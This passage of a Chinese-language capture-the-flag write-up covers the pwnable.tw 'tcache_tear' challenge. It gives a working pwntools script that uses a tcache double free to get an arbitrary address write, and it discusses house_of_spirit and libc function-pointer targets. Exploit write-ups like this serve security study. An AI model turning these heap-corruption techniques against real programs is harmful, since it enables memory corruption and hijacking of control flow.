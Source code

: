 之后再进行同样大小的malloc，就可以向用户输入地址处写入数据，形成任意地址写。

在本题尝试使用该方法修改Name：

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./tcache_tear")
io =  process(myelf.path)

sla     = lambda delim,data :  io.sendlineafter(delim,data)
init    = lambda name       :  sla("Name:",name)
malloc  = lambda size,data  : (sla("choice :","1"),sla("Size:",str(size)),sla("Data:",data))
free    = lambda            :  sla("choice :","2")
info    = lambda            :  sla("choice :","3")

# use tcache dup to arbitrary address write
def aaw(len,addr,data):
    malloc(len,'a')
    free()
    free()
    malloc(len,p64(addr))
    malloc(len,'a')
    malloc(len,data)

# use aaw to modify name
name_bss = 0x602060
init('xuan')
aaw(0x50,name_bss,'admin')
info()
io.interactive()
```

![image-20220608195056002](pwnabletw.assets/image-20220608195056002.png)



### tcache house_of_spirit

伪造一个size区域，然后将伪造的fake chunk释放，再次malloc相应大小就可以得到fake_chunk，进行完整堆块内存的控制，目的一般是扩大内存控制范围。

## 利用

寻找获取程序控制流内存数据，一般以下思路：

- 程序自己实现的函数指针：题目中没给出
- GOT表：但该题保护Full RELRO，GOT表不可写
- fini_array段函数指针：main函数while循环。不会返回到libc_start_main，然后执行fini_array段注册的函数
- **libc中的函数指针**，考虑内存泄露

通常考虑利用free堆块到unsorted bin双向链表中获取堆块内容。但题目中限制free次数为7次，刚好限制了绕过tcache的条件；且无法申请大于0xff大小的chunk。
